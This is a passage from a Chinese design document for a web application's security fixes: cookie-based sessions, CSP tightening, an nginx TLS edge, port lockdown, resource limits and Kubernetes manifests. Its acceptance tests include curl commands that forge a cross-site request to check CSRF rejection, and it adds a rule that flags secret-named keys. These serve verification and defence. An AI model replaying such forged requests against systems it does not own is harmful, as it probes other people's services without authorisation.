好处：①②之间任何一步出问题，**回滚前端镜像即可**，适配层不用回滚（它向后兼容）。若无这一步，回滚必须同时回滚两侧，风险翻倍。

#### 2.4.9 路线 B 的 `connect-src` 收敛（同批做，成本近零）

`next.config.js:55` 改为按构建期变量生成，而不是硬编码 `http: https:`：

```js
// 同源部署（三套 compose 默认，走边缘）→ 空字符串 → 只 'self'
// 跨源私有化（NEXT_PUBLIC_ADAPTER_BASE_URL 非空）→ 精确到该 origin
const adapterOrigin = process.env.NEXT_PUBLIC_ADAPTER_BASE_URL ?? '';
const connectSrc = adapterOrigin ? `'self' ${adapterOrigin}` : "'self'";
```

`NEXT_PUBLIC_ADAPTER_BASE_URL` 本来就是**构建期**注入（`docker-compose.yml:627-633`），因此这一改动无需运行期能力，零新概念。

**必须同时写明的残留**：`img-src 'self' data: https:`（`:53`）仍是 `` 外传通道。本批不动它（动了会打断外部头像/预览图，需产品确认），在 §4 列为待拍板项。

#### 2.4.10 nonce 化（V1.1，本期不做但结论已核实）

已在本机 `node_modules/next@16.4.3` 源码中核实了 App Router 下的实际机制，这推翻了"RSC 流式渲染对 nonce 有已知限制所以很难做"的模糊说法——**限制不是流式，而是静态预渲染**：

- Next 会从**请求头** `content-security-policy` 中提取 nonce：`next/dist/server/route-modules/app-page/parse-request-headers.js:30-31` 读 `headers['content-security-policy']` 并调 `getScriptNonceFromHeader()`；后者（`app-render/get-script-nonce-from-header.js:11-29`）从 `script-src`（无则 `default-src`）里取第一个 `'nonce-...'`。
- 该 nonce 随后进入 `app-render` 的 `ctx.nonce`，被框架自己套到引导脚本与 RSC 内联块上（`app-render.js:2514,6083`、`create-component-styles-and-scripts.js:27`）。
- **所以实际写法是**：在 `proxy.ts`/`middleware.ts` 里生成 nonce，并把 CSP 同时写进**请求头**与响应头——**不需要手工给每个 `<Script>` 传 nonce**。
- **真正的代价**：静态预渲染的 HTML 无法带每请求 nonce，必须 `export const dynamic = 'force-dynamic'`（或接受这些路由白屏）。验收方式是构建后断言路由全为动态：`next build` 输出中不得出现 `○ (Static)`。
- 候选 `script-src`：`'self' 'nonce-{n}' 'strict-dynamic'`。`style-src` 的 `'unsafe-inline'` 本期保留（Tailwind 内联样式与内联 `style` 属性），这是**明确的非目标**。

### 2.5 验收判据（可执行）

```bash
# ① 令牌不再落在 JS 可读处（生产代码 0 命中）
grep -rn "localStorage\|sessionStorage" apps/web/src --include=*.ts --include=*.tsx \
  | grep -v "\.test\." ; echo "exit=$?  # 期望 1（无命中）"

# ② 响应体不含令牌；Cookie 属性正确（需起栈后执行）
curl -s -i -X POST http://localhost/sso/complete -H 'Content-Type: application/json' \
  -d '{"code":"x","state":"y"}' -b "oa_oidc_pending=..." | grep -i "^set-cookie"
# 期望：oa_session=...; HttpOnly; SameSite=Lax; Path=/（HTTPS 现场额外含 Secure）
curl -s -X POST http://localhost/sso/complete ... | grep -c "access_token"   # 期望 0

# ③ CSRF 三道闸（伪造跨站请求必须被拒）
curl -s -o /dev/null -w '%{http_code}\n' -X POST http://localhost/api/v1/identity/profile \
  -H 'Sec-Fetch-Site: cross-site' -b 'oa_session=<有效值>'      # 期望 403
curl -s -o /dev/null -w '%{http_code}\n' -X POST http://localhost/api/v1/identity/profile \
  -H 'Sec-Fetch-Site: same-origin' -b 'oa_session=<有效值>'     # 期望 200

# ④ 浏览器侧：控制台执行 document.cookie 不得出现令牌
#    （人工检查项：期望只看到非敏感标记，无 oa_session）

# ⑤ 端点基线未被动过（96 条冻结基线一条不动）
python deploy/validate_openapi.py            # 期望全绿

# ⑥ 前端单测/类型/lint
cd apps/web && npm run test && npm run typecheck && npm run lint

# ⑦ 后端门禁
cd apps/adapter && ruff check . && mypy app && pytest -q tests/unit tests/security
```

**判据与审计口径的对应关系（必须同时满足才算闭环 P0-5）**：

| 审计判据 | 本方案落点 | 满足时点 |
| --- | --- | --- |
| 令牌不在 `localStorage` | 验收 ①④ | A 落地即满足 |
| CSP 不含 `unsafe-inline` | §2.4.10（V1.1） | **本期不满足——已由主理人拍板豁免，论证见 §4.4 残留 1** |
| CSP `connect-src` 无裸 `http:` | §2.4.9 | A 同批满足 |

> ⚠ **本节判据不足以判定 P0-5 可验收**：R4/R8 是并列阻断项，须一并满足（见 §4.2 与配套文档）。仅满足上表三行 → 表现是"登录页打不开"或"登录成功但所有接口 401"。

### 2.6 回滚

| 触发条件 | 动作 | 数据影响 |
| --- | --- | --- |
| `/sso/*` 在真实 Keycloak realm 下兑换失败（client 类型/redirect_uri 配错） | **只回滚 web 镜像**到上一版（localStorage 版）。适配层保留 Bearer 轨（§2.4.8），旧前端可立即工作 | 无。用户重新登录一次 |
| CSRF 判定误伤真实用户（老浏览器 `Sec-Fetch-Site` 缺失且 `Origin` 也缺失） | 置 `OA_AUTH_COOKIE_ENABLED=false` 重启适配层 → 全体回 Bearer 轨；同时回滚 web 镜像 | 无 |
| Cookie 在客户 HTTP 现场被浏览器策略丢弃 | 把 `OA_PUBLIC_BASE_URL` 确认为实际的 `http://` 值（`Secure` 由它派生）；仍失败则按上一行回滚 | 无 |
| 上线后发现会话时长不可接受（realm TTL 300 s） | 现场把 realm `accessTokenLifespan` 调至 1800 s（运维动作，不改代码）；A2 增量补 refresh | 无 |

**回滚不需回滚数据库**：本方案不新增持久化状态（`state`/`verifier` 全在 Cookie，刷新令牌若做 A2 可落 Valkey，V1.0 不需要），没有迁移脚本。

---

## 3. P0-4：部署形态（TLS 终止 + 端口收口 + k8s 实体）

### 3.1 现状复核（含事实勘误）

#### 3.1.1 核对结论

| 审计断言 | 实测结果 | 判定 |
| --- | --- | --- |
| nginx 只存在于 lite 版 | `deploy/docker-compose.lite.yml:528-557` 有 `proxy` 服务（挂 `nginx/nginx.conf:535`、`nginx/lite.conf:536`，端口 `${OA_LITE_PROXY_PORT:-80}:80` 在 `:539`）；`docker-compose.yml`、`docker-compose.saas.yml` **无任何反代服务**（YAML 解析确认服务名集合里没有 proxy/edge/nginx） | **成立** |
| 两套 compose 的 adapter/web 端口省略 host IP | `docker-compose.yml:589`、`:638`；`docker-compose.saas.yml:396`、`:424` —— 四行均为 `"${OA_*_PORT:-...}:PORT"` | **成立**（行号与审计一致） |
| 基础设施端口已收口 | `docker-compose.yml`：milvus `127.0.0.1:19530/9091`、object-store `127.0.0.1:8333/23646`、prometheus `127.0.0.1:9090`；`saas.yml`：`:157,177,178` 同口径 | **成立**（这部分确实已修，不重复处理） |
| `deploy/k8s/` 只有 README | `ls deploy/k8s/` → 仅 `README.md`（2037 B），正文自述"manifests 均未创建" | **成立** |
| `securityContext`/`NetworkPolicy`/`resources` 全缺 | 无任何 manifest，自然全缺 | **成立** |

#### 3.1.2 事实勘误：**"三套 compose 零内存限制"不成立**

审计原文（P0-4、P1-01 两处）称"`grep mem_limit\|resources:` → 0 命中"。实际逐服务解析结果：

| compose 文件 | 服务数 | 有内存限制 | 无内存限制 | CPU 限制 |
| --- | --- | --- | --- | --- |
| `docker-compose.yml` | 19 | **8** | 11 | **0** |
| `docker-compose.saas.yml` | 16 | **0** | 16 | **0** |
| `docker-compose.lite.yml` | 11 | **10** | 1（`migrate`，一次性容器） | **0** |

`docker-compose.yml` 已有限制的 8 个：`postgres 512M`、`valkey 3g`、`milvus 2g`、`dify-api 1024M`、`dify-worker 768M`、`plugin_daemon 512M`、`keycloak 1024M`、`adapter 512M`（`:86-89, :116-121, :207-210, :311-315, :356-360, :476-480, :523-528, :607-611`）。
`docker-compose.yml` **缺**的 11 个：`milvus-object-store`、`milvus-etcd`、`object-store`、`dify-worker-beat`、`dify-web`、`dify-sandbox`、`ssrf_proxy`、**`web`**、`postgres-exporter`、`valkey-exporter`、`prometheus`。

**这意味着工作量与风险判断要改**：不是"从零补三套"，而是"`saas.yml` 全量补 + `docker-compose.yml` 补 11 个（含 `web`）+ 三套补 CPU"。同时说明"资源限制"这一项的**唯一真实全缺点是 `saas.yml`**——而 `saas.yml` 恰好是 SaaS 生产形态，风险最高。

#### 3.1.3 补充复核（审计未提，但设计必须面对）

| # | 事实 | 证据 | 影响 |
| --- | --- | --- | --- |
| M-1 | **两个镜像本来就不是 root 运行** | `apps/adapter/Dockerfile:81 USER adapter`；`apps/web/Dockerfile:90 USER nextjs` | "以 root 运行"不是现状缺陷；缺的是**强制声明**（k8s `runAsNonRoot: true` 才能把它变成硬门禁）与 `cap_drop`/`no-new-privileges` |
| M-2 | **三套 compose 都没有 `user` / `read_only` / `security_opt`** | YAML 解析 `adapter/web` 三项均为 `None` | 见 §3.3.4 分档 |
| M-3 | **省略 host IP 确实绑 `0.0.0.0` 与 `[::]`** | 实跑：`"18099:80"` → `HostConfig.PortBindings` 的 `HostIp` 为空字符串，宿主 `netstat` 显示 `0.0.0.0:18099` 与 `[::]:18099` 同时在听 | 审计该条判断正确，收口是必要的 |
| M-4 | **`deploy.resources.limits` 在非 swarm 下真的生效** | 实跑 Compose v5.6.0：`deploy.resources.limits.memory: 96M` + `cpus: "0.50"` → `HostConfig.Memory=100663296`、`NanoCpus=500000000` | 写法可行，无需 `--compatibility` |
| M-5 | **默认 `MemorySwap = 2 × Memory`** | 同上实跑：`MemorySwap=201326592`（=2×96 MiB）。显式加 `memswap_limit: 96M` 后 → `100663296`（=1×） | 不显式设 = 允许 1 倍 swap。内存压力下表现为**抖动**而不是**干净 OOM**，必须显式设 |
| M-6 | **`deploy.resources.limits` 与 `memswap_limit` 可共存不报错** | 同上实跑并存 | 采用 §3.3.5 的写法 |
| M-7 | **`lite-tls.conf` 缺 `ssl_ciphers` / `ssl_dhparam` / OCSP stapling** | `deploy/nginx/lite-tls.conf:52-56` 只有 `ssl_protocols`、`ssl_prefer_server_ciphers off`、`ssl_session_cache/timeout`；`:49-50` 证书；全文件无 `ssl_ciphers`/`ssl_dhparam`/`ssl_stapling` | 见 §3.3.1 |
| M-8 | **两份 nginx 配置均通过 `nginx -t`** | 本次自己复跑：`lite.conf` 与 `lite-tls.conf`（挂临时自签证书）在 `nginx:1.28-alpine` 下 `syntax is ok` / `test is successful` | 自建边缘是**已验证可跑**的路，不是纸面方案 |
| M-9 | **加边缘会塌缩产物下载限流** | `artifact_files.py:65-73` 以 `request.client.host` 作 IP；业务限流不受影响（键是 `tenant:user:path`，`ratelimit.py:265`） | 只此一处受影响，需"可信代理"概念 |
| M-10 | **适配层完全不读任何转发头** | `grep -rn "X-Forwarded-For\|forwarded_for\|ProxyHeaders"` 于 `apps/adapter/app` → **0 命中** | 审计"它不读 XFF 这点是对的"成立：**伪造 XFF 无法影响鉴权/租户判定**。不要为了限流而全面信任 XFF |

### 3.2 选型对比

#### 3.2.1 TLS 终止形态

| 方案 | 私有化适配度 | SaaS 适配度 | 证书来源 | 成本 | 残留风险 |
| --- | --- | --- | --- | --- | --- |
| **A. 自建 nginx 边缘（复用 lite-tls.conf）** | **高**：现场常有内网 CA 或客户自备证书；无云 LB 也能上 | 高 | 客户自备 / 自签 / ACME 旁挂 | **低**（资产已验证可跑，M-8） | 证书轮换要运维介入；OCSP 在私有 CA 下无意义 |
| B. 云 LB 终止（仓库不提供实现） | **低**：多数私有化现场没有 | 高（且更专业） | LB 托管（ACM 等） | 低（代码零改动） | **仓库里"无实体"的问题依旧**；客户问"怎么开 TLS"没有答案 |
| **C. 两者都支持（A 为默认，B 靠 HTTP 版边缘 + 文档前置条件）** | 高 | 高 | 两种 | 低（A 的成本 + 一份文档） | 需要明确 `X-Forwarded-Proto` 的信任边界 |

**结论：选 C**。默认自建（补上"仓库里没有实体"的洞），云 LB 场景挂 HTTP 版边缘并在部署文档中声明为**前置条件**（LB 必须终止 TLS 并注入 `X-Forwarded-Proto`）。这不是"都可以"，而是**同一个实现覆盖两种拓扑**：HTTP 版边缘就是为"上游已终止 TLS"准备的。

#### 3.2.2 端口收口

| 服务 | 现状 | 目标 | 理由 |
| --- | --- | --- | --- |
| `edge`（新） | 不存在 | **`0.0.0.0:80` / `:443`**（唯一对外） | 唯一出入口 |
| `adapter` | `0.0.0.0:8000` | **`expose: [8000]`** | 直连 8000 会绕过边缘的安全头、限流与统一入口（`docs/lite-container-baseline.md:25` 已把"直连 adapter 会把 8000 暴露给客户网络"写成删不得 `proxy` 的理由） |
| `web` | `0.0.0.0:3000` | **`expose: [3000]`** | 同上；且 Next 服务端口不该被外网直接访问 |
| milvus / object-store / 各类 exporter / prometheus | 已 `127.0.0.1` | 保持 | 已收口（ARC-01），不重复处理 |
| `keycloak` | 无宿主映射 | 保持；但若要暴露登录页需经边缘新增 location | 见 §4-R4（本期不改） |

**逃生开关（默认关闭）**：`docker-compose.direct.yml` override，把 `adapter`/`web` 以 `127.0.0.1` 映射回宿主（仅本机，不给网卡）。用法 `docker compose -f docker-compose.yml -f docker-compose.direct.yml up -d`，仅供现场排障。
**为什么不能用"端口变量置空"**：compose 的 `ports` 项不支持空值跳过（`"${OA_ADAPTER_PORT:-8000}:8000"` 若变量为空会解析成 `:8000` 并报错），所以必须用 override 文件。

### 3.3 详细设计

#### 3.3.1 边缘模板

把 lite 的两份配置提升为全形态共用，**只改名与增量，不改已验证的部分**：

| 新文件 | 来源 | 增量 |
| --- | --- | --- |
| `deploy/nginx/edge.conf` | `lite.conf` | ① 新增 `location ^~ /sso/`（P0-5 依赖，缺则 404）；② 顶部注释改为"三形态共用"并列出三种挂载方式 |
| `deploy/nginx/edge-tls.conf` | `lite-tls.conf` | ① 同上 `/sso/`；② 补 `ssl_ciphers`（M-7）；③ `ssl_session_tickets off`；④ 注释里给 OCSP 的可选片段（默认不启用） |
| `deploy/nginx/lite.conf` / `lite-tls.conf` | — | 保留为薄壳 `include` 或直接与 edge 版保持同内容，避免 `install.sh` / `validate_lite_up.sh` 的路径断言断裂（改用软链或同步脚本） |

**`ssl_ciphers` 取值（已实测在 `nginx:1.28-alpine` 下合法，M-8 同批验证）**：

```nginx
ssl_ciphers 'ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-CHACHA20-POLY1305:ECDHE-RSA-CHACHA20-POLY1305';
ssl_prefer_server_ciphers off;   # 保持：TLS1.3 下由客户端偏好更合理
ssl_session_tickets off;         # 无常驻 key 轮换机制，票据复用反而是长期密钥风险
```

**`ssl_dhparam` 的结论：不生成、不配置。** 理由：上面白名单**只含 ECDHE 密钥交换，没有任何 DHE 套件**，`ssl_dhparam` 在这套配置下**永不生效**——生成一个 2048 位参数文件只会增加一个需要备份与轮换的静态资产，没有任何安全收益。这是"看起来该补但其实不该补"的一项，明确写出来以免后人重复"补齐"。
（若将来必须支持 DHE（例如某老客户端），才需要 `ssl_dhparam`，且应同时把参数纳入 `deploy/sbom` 与备份清单。）

**OCSP stapling 的结论：V1.0 自建边缘不启用。** 理由：私有化的证书多来自客户内部 CA，**没有公网 OCSP responder**，配了只会让 nginx 反复失败重试并拖慢首次握手；SaaS 若用云 LB，stapling 是 LB 的职责。给出可选片段备查：

```nginx
# 仅在"证书由公网 CA 签发 + 边缘可出网"时启用（SaaS 自建边缘场景）
ssl_stapling on;
ssl_stapling_verify on;
ssl_trusted_certificate /etc/nginx/tls/fullchain.pem;
resolver 223.5.5.5 119.29.29.29 valid=300s;   # 不能用 127.0.0.11（Docker DNS 不递归公网）
```

**HSTS 单点化（解决 N-2）**：从 `apps/web/next.config.js:24-27` **删除** HSTS，只由 `edge-tls.conf` 下发（保留现有 `max-age=15552000; includeSubDomains`）。理由三条：① 两处取值不一致本身就是缺陷；② Next 在纯 HTTP 现场也发 HSTS 属于"配了但无效"的误导；③ HSTS 是站点级策略，应由边缘统一下发。**注意**：删 Next 的 HSTS 时 `next.config.js:20-27` 那段注释要同步改写，否则注释与代码矛盾（项目里注释密度高，误导成本大）。

#### 3.3.2 compose 改动点

**三套统一新增边缘服务**（服务名在 full/saas 用 `edge`，lite 保留 `proxy` 以免动 `install.sh` / `validate_lite_up.sh` 的断言）：

```yaml
  edge:
    image: nginx:1.28-alpine          # 与 lite.yml:531 同 tag（mainline→stable 的结论沿用）
    restart: unless-stopped
    volumes:
      - ./nginx/nginx.conf:/etc/nginx/nginx.conf:ro
      - ./nginx/edge.conf:/etc/nginx/conf.d/default.conf:ro
    ports:
      - "${OA_EDGE_HTTP_PORT:-80}:80"
    depends_on:
      adapter: { condition: service_healthy }
      web:     { condition: service_healthy }
    networks: [officeai-frontend]      # 关键：adapter 也在这张网（docker-compose.yml:605），web 只在这张网
    healthcheck:
      test: ["CMD-SHELL", "wget -qO- http://127.0.0.1/healthz | grep -q ok"]
      interval: 10s
      timeout: 3s
      retries: 10
      start_period: 10s
    deploy:
      resources:
        limits: { memory: 128M, cpus: "0.50" }
    memswap_limit: 128M
    security_opt: ["no-new-privileges:true"]
    logging: *default-logging
```

- `saas.yml`：`networks: [officeai]`（该文件只有一个网）。
- `lite.yml`：`proxy` 服务已存在，只需把挂载从 `lite.conf` 换成 `edge.conf`（或让 `lite.conf` 与 `edge.conf` 同源同步）。
- **`NEXT_PUBLIC_ADAPTER_BASE_URL` 必须置空**（`docker-compose.yml:627` 现默认 `http://localhost:8000`）；否则浏览器会绕过边缘直连 8000，等于白收口。同时删掉 `.env.example:324` 的那个默认值或改成注释。
- `adapter`/`web` 的 `ports:` 行删除，改 `expose:` 并**显式列出端口**（不写 `expose` 也能被同网访问，显式是为了让"对外契约"可读、可被门禁检查）。

**TLS override（`deploy/docker-compose.tls.yml`）**：

```yaml
services:
  edge:
    volumes:
      - ./nginx/nginx.conf:/etc/nginx/nginx.conf:ro
      - ./nginx/edge-tls.conf:/etc/nginx/conf.d/default.conf:ro
      - ./nginx/tls/fullchain.pem:/etc/nginx/tls/fullchain.pem:ro
      - ./nginx/tls/privkey.pem:/etc/nginx/tls/privkey.pem:ro
    ports:
      - "${OA_EDGE_HTTP_PORT:-80}:80"
      - "${OA_EDGE_HTTPS_PORT:-443}:443"
```

运维二选一（**这是"两种形态"的落地方式，不是两套代码**）：
- 前置已有 TLS（云 LB / 客户网关 / 纯内网）：`docker compose -f docker-compose.yml up -d`
- 本机终止 TLS：`docker compose -f docker-compose.yml -f docker-compose.tls.yml up -d`

`deploy/nginx/tls/` 进 `.gitignore`（证书不入库，与 `lite-tls.conf:12-13` 的既有约定一致），目录里放 `README` 说明命名与权限（`chmod 600 privkey.pem`）。

**自签证书生成（仅供验证，不作为交付方案）**：

```bash
openssl req -x509 -newkey rsa:2048 -nodes -days 365 \
  -keyout deploy/nginx/tls/privkey.pem -out deploy/nginx/tls/fullchain.pem \
  -subj "/CN=officeai.local" -addext "subjectAltName=DNS:officeai.local"
```
自签必须导入客户端信任链，否则用户看到证书告警——**这一句要写进交付说明**，否则现场会当成"部署失败"。

#### 3.3.3 转发头信任链（M-9 / M-10 的处置）

**三条硬规矩**：

1. **边缘必须覆盖、而非追加 `X-Forwarded-Proto`**：现有 `lite-tls.conf:88,117,170` 已用常量 `https` 赋值，方向正确，**保持不变**。绝不能改成 `$http_x_forwarded_proto`（那等于让客户端自证协议）。
2. **适配层的安全判定一律不看转发头**。`Secure` 属性只由配置决定（§2.4.6）；租户、用户、鉴权一律来自令牌声明（`security.py:208-239`）。这条是 M-10 的正确现状，**不要"顺手"改成信任 XFF**。
3. **仅限流键使用 `X-Forwarded-For`，且必须过可信网段校验**：

```python
# apps/adapter/app/core/netutil.py（新增）
def client_ip(request: Request, conf: Settings) -> str:
    peer = request.client.host if request.client else "unknown"
    trusted = parse_cidrs(conf.trusted_proxy_cidrs)      # 默认空 → 永远返回 peer
    if not trusted or not ip_in(peer, trusted):
        return peer                                       # 不可信来源：忽略一切转发头
    hops = [h.strip() for h in request.headers.get("X-Forwarded-For", "").split(",") if h.strip()]
    # 从右往左取第一个"非可信"跳；全可信则取最左
    for hop in reversed(hops):
        if not ip_in(hop, trusted):
            return hop
    return hops[0] if hops else peer
```

- `OA_TRUSTED_PROXY_CIDRS` **默认空**（= 永不信任任何转发头）。三套 compose 里对 `adapter` 注入边缘所在网段（如 `172.16.0.0/12`，或更精确地用固定子网 `deploy/docker-compose.yml` 的 network 定义加 `ipam.config.subnet`）。
- 只影响 `artifact_files.py` 的限流键（M-9）；业务限流键是 `tenant:user:path`（`ratelimit.py:265`），不受影响。
- **不给 web 服务读转发头**：Next 的 `X-Forwarded-*` 使用面在 V1.0 为零（无 absolute URL 生成、无 OAuth 回调拼接）。

#### 3.3.4 资源限制

**取值规则（口径必须随数字一起引用，见 `docs/lite-container-baseline.md:13-15` 的纪律）**：
- 有 lite 实测值 → `max(实测 cgroup 上界 × 1.5, 现有值)`，向上取整到常用档（128/256/384/512/768/1024/2048/3072 MB）；
- 无实测值 → 按镜像形态估：JVM/多进程 1024M 起、Go/Rust 单进程 512M、sidecar/exporter 128M，并在注释里标注"无实测基线，待 `docker stats` 校准"（照抄 `docker-compose.yml:205-206` 的既有做法）。

**`docker-compose.yml` 补齐 11 个**：

| 服务 | 取值 | 依据 |
| --- | --- | --- |
| `web` | **384M** | lite 实测 41.0 MiB / cgroup 42.4（baseline §2.3），沿用 `lite.yml:521` 的 384M |
| `object-store` | 512M | 无实测；SeaweedFS 三进程，估 3× |
| `milvus-object-store` | 512M | 同上 |
| `milvus-etcd` | 256M | 无实测；etcd 空载通常 <100M |
| `dify-web` | 512M | 沿用 `lite.yml` 的 512M |
| `dify-worker-beat` | 256M | 与 `dify-worker 768M` 分离：beat 只发调度，空载极小 |
| `dify-sandbox` | 512M | lite 实测曾为 126.3 MiB（baseline §1.3），4× 余量 |
| `ssrf_proxy` | 128M | lite 实测曾为 162.9 MiB（baseline §1.3）→ 但 squid 在压缩后稳态较低；**取 256M 更稳妥**（见下修正） |
| `postgres-exporter` | 128M | 单连接只读采集器 |
| `valkey-exporter` | 128M | 同上 |
| `prometheus` | 512M | lite 实测曾为 79.1 MiB（空载）；留 TSDB 内存与查询峰值 |

> 修正：`ssrf_proxy` 取 **256M**（lite 实测 162.9 MiB × 1.5 ≈ 244M → 取 256M）。

**`docker-compose.saas.yml` 补齐 16 个**：同镜像同取值，直接复用上表与 `docker-compose.yml` 已有的 8 项（`postgres 512M`、`valkey 3g`、`milvus 2g`、`dify-api 1024M`、`dify-worker 768M`、`plugin_daemon 512M`、`keycloak 1024M`、`adapter 512M`）。`saas.yml` 另有两个独有服务 `etcd` 与 `milvus-etcd`：`etcd` 256M。

**CPU 限制（三套统一，只给三个服务）**：

| 服务 | `cpus` | 理由 |
| --- | --- | --- |
| `adapter` | `"1.0"` | 单副本 + SSE 长连接，给足一个核；低于 1.0 在流式并发下会明显抖动 |
| `web` | `"0.5"` | Next standalone 空载极轻（实测 41 MiB）；渲染峰值短促 |
| `edge` | `"0.5"` | nginx 代理几乎不吃 CPU |

**其余服务不设 CPU 上限**，理由要写清：CPU 上限的失效模式是**延迟劣化**（throttling），不会拖垮宿主；而内存不设的失效模式是**宿主 OOM**（这正是 P1-01"租户全量导出拖垮宿主"的成因）。在"周期紧张"的取舍下，先消除能拖垮宿主的失效模式，CPU 留待有实测热点再收。**这是有意识的取舍，不是遗漏。**

**写法（M-4/M-5/M-6 的实测结论）**：

```yaml
    deploy:
      resources:
        limits:
          memory: 512M
          cpus: "1.0"
    memswap_limit: 512M      # 必须显式：否则默认 MemorySwap=2×Memory，先抖动再 OOM
```

- `deploy.resources.limits.*` 在 Compose v2 本地模式**确实生效**（实测 → `HostConfig.Memory` / `NanoCpus`），不需要 `--compatibility`；本项目已统一用它，**继续用同一写法**，不要混入 `mem_limit`。
- `memswap_limit` 是 **top-level 键**，`deploy.resources.limits` 下**没有**对应字段；两者并存不冲突（实测）。
- 巡检口径：`docker inspect <c> --format '{{.HostConfig.Memory}} {{.HostConfig.MemorySwap}}'` 必须相等。

#### 3.3.5 k8s 最小三件套

**范围修正**：`deploy/k8s/README.md:6-9` 写着"HPA 2-10 / 2-8、99.5% 可用率"，但 V1.0 是**单副本部署**（`deploy/k8s/` 无 HPA，团队约束明确）。V1.0 的 k8s 目标是"**能在 k8s 上跑起来且配置不漂移**"，不是"弹性"。HPA/PDB/多副本一律后置。

目录与字段（**"必须"= V1.0 交付，"后置"= 明确不阻塞发布**）：

```
deploy/k8s/
├── README.md                     # 改写：从"均未创建"改为清单 + V1.0 范围 + 前置条件
└── base/
    ├── kustomization.yaml        # 必须：把下面串起来
    ├── namespace.yaml            # 必须：Namespace officeai
    ├── serviceaccount.yaml       # 必须：SA + automountServiceAccountToken: false
    ├── secret.yaml               # 必须：**只写引用方式**（见"单一真源"），不提交密钥值
    ├── configmap.yaml            # 必须：非敏感配置（键集合受门禁约束）
    ├── app.env.keys              # 必须：env 键清单（供机械校验，见 §3.3.6）
    ├── adapter/
    │   ├── deployment.yaml       # 必须
    │   ├── service.yaml          # 必须（ClusterIP）
    │   └── networkpolicy.yaml    # 必须
    ├── web/
    │   ├── deployment.yaml       # 必须
    │   ├── service.yaml          # 必须
    │   └── networkpolicy.yaml    # 必须
    └── ingress.yaml              # 必须（或文档声明"由外部 LB 提供"，二选一）
```

**Deployment 必备字段**（adapter / web 各自）：

```yaml
spec:
  replicas: 1                                  # 必须：V1.0 单副本
  strategy: { type: Recreate }                 # 必须：单副本 + 有状态依赖，避免滚动双活抢迁移
  template:
    spec:
      serviceAccountName: officeai
      automountServiceAccountToken: false      # 必须
      terminationGracePeriodSeconds: 60        # 必须：adapter 的 SSE 长连接要排空
      securityContext:                         # 必须：把镜像里的 USER 变成硬门禁
        runAsNonRoot: true
        runAsUser: 10001                       # adapter=adapter 的 uid / web=nextjs 的 uid（按镜像实际填）
        seccompProfile: { type: RuntimeDefault }
        fsGroup: 10001
      containers:
        - name: adapter
          image: officeai/adapter:<tag>        # 锁定 digest（与 images.lock 同源）
          envFrom:
            - secretRef:    { name: officeai-secrets }   # 必须
            - configMapRef: { name: officeai-config }    # 必须
          ports: [{ name: http, containerPort: 8000 }]
          resources:                           # 必须：requests 与 limits 都写
            requests: { cpu: "200m", memory: "128Mi" }
            limits:   { cpu: "1",    memory: "512Mi" }
          securityContext:                     # 必须
            allowPrivilegeEscalation: false
            readOnlyRootFilesystem: true       # ⚠ 见下：先验证再开
            capabilities: { drop: ["ALL"] }
          volumeMounts:
            - { name: tmp, mountPath: /tmp }
          readinessProbe:                      # 必须：/readyz，含 DB 连通与权限自检
            httpGet: { path: /readyz, port: http }
            initialDelaySeconds: 20
            periodSeconds: 10
            failureThreshold: 3
          livenessProbe:                       # 必须：/healthz（不要用 /readyz，依赖故障会连环重启）
            httpGet: { path: /healthz, port: http }
            initialDelaySeconds: 60            # 覆盖 baseline 的 86 s 就绪实测
            periodSeconds: 20
      volumes:
        - { name: tmp, emptyDir: {} }
```

`web` 同理，`containerPort: 3000`，就绪探针打 `/`（`lite.yml:512` 用的是 `wget http://127.0.0.1:3000/`，同口径），`runAsUser` 按 `nextjs` 实际 uid。

**`readOnlyRootFilesystem: true` 要标风险**：adapter 与 web 是否有运行期写盘路径，**没有验证过**。验证方法（进 k8s 前先在 compose 上做）：`docker run --read-only --tmpfs /tmp ...` 起容器，跑一遍主链路（登录 → 上传 → 生成 → 下载产物），观察是否 500。**验证通过才开**；不通过则 V1.0 先 `readOnlyRootFilesystem: false` 但保留其余字段，并登记为后置项。

**NetworkPolicy（必须，且必须显式放 DNS）**：

```yaml
# 默认全拒（在同一 Namespace 内生效）
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata: { name: default-deny, namespace: officeai }
spec:
  podSelector: {}
  policyTypes: ["Ingress", "Egress"]
---
# web：只接受边缘/Ingress，只出向 adapter 与 DNS
kind: NetworkPolicy
metadata: { name: web }
spec:
  podSelector: { matchLabels: { app: web } }
  policyTypes: ["Ingress", "Egress"]
  ingress:
    - from: [{ namespaceSelector: { matchLabels: { kubernetes.io/metadata.name: ingress-nginx } } }]
      ports: [{ port: 3000, protocol: TCP }]
  egress:
    - to: [{ podSelector: { matchLabels: { app: adapter } } }]
      ports: [{ port: 8000, protocol: TCP }]
    - to: [{ namespaceSelector: {} }]           # DNS
      ports: [{ port: 53, protocol: UDP }, { port: 53, protocol: TCP }]
```

**典型错误要写进注释**：漏掉 53 端口的 egress 会让 Service 名解析失败，表现是"偶发 502/连接超时"，排障成本极高。

**`Secret` 的写法（不提交密钥值）**：

```yaml
# secret.yaml —— 只声明形状与生成方式，值由 install.sh 生成
# 生成：kubectl -n officeai create secret generic officeai-secrets \
#         --from-env-file=deploy/.env --dry-run=client -o yaml | kubectl apply -f -
apiVersion: v1
kind: Secret
metadata: { name: officeai-secrets, namespace: officeai }
type: Opaque
# data: 由上面的命令填充，禁止手工填写、禁止入库
```

#### 3.3.6 单一真源（k8s 与 compose 并存的漂移防治）

三层，从"约定"到"机械断言"：

1. **键集合唯一真源 = `deploy/.env.example`**。compose 用 `env_file: .env`；k8s 用 `kubectl create secret --from-env-file=deploy/.env`（§3.3.5）。两边吃**同一个文件**，不各自维护清单。
2. **键名正确性已有门禁**：`deploy/validate_config_names.py` 校验"环境变量名 ↔ `Settings` 字段"的映射（`docker-compose.yml:567-570` 的注释记录过它抓住 `OA_KEYCLOAK_URL` 静默失效的历史）。k8s 的 ConfigMap 键同样受它管辖——**只要键来自 `.env.example`，就不会漂移**。
3. **新增一条机械断言（防的是"k8s 手写了 compose 里没有的键"）**：在 `deploy/validate_deploy.py` 增加
   - `deploy/k8s/base/*.yaml` 中出现的所有 `env.name` 与 ConfigMap 键 ⊆ `.env.example` 的键集合，否则报错并打印差集；
   - 反向：`deploy/.env.example` 中标为"敏感"的键（命名含 `PASSWORD`/`SECRET`/`_KEY`/`TOKEN`）不得出现在 ConfigMap 里（必须走 Secret）。

